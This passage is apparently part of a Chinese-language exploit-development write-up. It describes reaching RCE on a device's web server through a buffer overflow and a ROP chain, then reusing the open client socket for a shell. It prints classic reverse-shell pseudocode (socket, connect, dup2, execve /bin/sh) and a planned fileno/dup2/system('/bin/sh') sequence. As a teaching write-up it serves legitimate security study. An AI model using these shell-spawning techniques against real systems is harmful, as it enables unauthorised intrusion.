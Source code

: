 ![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCMdNqtzMibt5ibQibbEYuUZb85JuoyMaHY7t8jNeSVricM6hribJab22OtRFjY8uvia6ewgrwka4QS02Yicg/640?wx_fmt=png&from=appmsg "")  
  
通过 telnetd 实现简单漏洞利用获取 shell  
  
成功实现 RCE！但自从分析反编译的 dispatcher 函数后，另一个可能的解决方案始终萦绕在我脑海中。我不断思考这个方案是否真的可行。是时候验证了——进入第二部分。  
### 第二部分 - 更进一步的探索  
  
让我们先回顾因缓冲区溢出而将控制流转交给我们指定的代码区域。可以看到在 return 语句之前有两个fwrite  
调用，它们将响应写入原始请求客户端的socket_stream  
连接。  
  
这使我得出以下两个假设：  
- ROP 链触发时连接尚未关闭  
  
- socket_stream  
的引用很可能仍存留在某个寄存器中  
  
```
    write_response_header(socket_stream,0x68);
    fwrite("<html><head><title>404 File Not Found</title></head>\n",1,0x35,socket_stream);
    fwrite("<body>The requested URL was not found on this server</body></html>\n",1,0x43,socket_stream);
    return 0;
}

```  
  
这让我想起 CTF 比赛中那些通过socat  
暴露在 socket 上的漏洞二进制文件。在这种情况下，编写 shellcode 实现远程代码执行（RCE）的常用方法如下15  
：  
```
fd = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP); // create socket
connect(fd, (struct sockaddr *) &serv_addr, 16); // connect
dup2(fd, 0); // dup socket and STDIN
dup2(fd, 1); // dup socket and STDOUT
dup2(fd, 2); // dup socket and STDERR
execve("/bin/sh", 0, 0); // execute /bin/sh

```  
  
socket()  
 函数通过指定的 domain、type 和 protocol 创建新套接字。connect()  
 随后建立与目标地址的连接。连接成功后，三次使用 dup2()  
 将套接字文件描述符重定向到标准输入（STDIN）、标准输出（STDOUT）和标准错误（STDERR），从而有效地将 shell 的 I/O 绑定到套接字。最后，execve()  
 执行 /bin/sh  
，通过已建立的连接生成一个通信 shell。  
  
在上述情境中，我已经完成了该策略的一半。由于已经拥有 socket/connection，剩下的工作只需执行 dup2  
 调用和 system  
 调用即可，对吗？这将允许我复用已建立的连接作为 shell。  
  
虽然我持有 FILE *stream  
，但 dup2  
 需要整数文件描述符，因此需要额外步骤——调用 fileno()  
 来获取对应的文件描述符。这使得整个计划大致呈现如下结构。  
```
fd = fileno(stream)
dup2(fd, 0)
dup2(fd, 1)
dup2(fd, 2)
system("/bin/sh")

```  
  